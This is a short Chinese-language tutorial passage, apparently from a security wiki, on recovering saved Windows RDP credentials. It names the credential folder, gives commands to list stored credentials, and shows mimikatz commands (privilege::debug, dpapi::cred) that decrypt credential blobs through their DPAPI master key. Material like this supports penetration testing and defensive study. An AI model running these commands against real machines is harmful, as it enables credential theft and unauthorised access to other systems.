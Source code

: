 **RDP**

Windows 保存 RDP 凭据的目录是 `C:\Users\用户名\AppData\Local\Microsoft\Credentials`

![](../../../assets/img/Security/安全工具/mimikatz/12.png)

可通过命令行获取，执行: `cmdkey /list` 或 `powerpick Get-ChildItem C:\Users\用户名\AppData\Local\Microsoft\Credentials\ -Force`

注意: `cmdkey /list` 命令务必在 Session 会话下执行，system 下执行无结果。

mimikatz 获取 guidMasterKey,再通过 guid 来找到其所对应的 Masterkey
```
privilege::debug
dpapi::cred /in:C:\Users\USERNAME\AppData\Local\Microsoft\Credentials\SESSIONID
```

![](../../../assets/img/Security/安全工具/mimikatz/13.png)
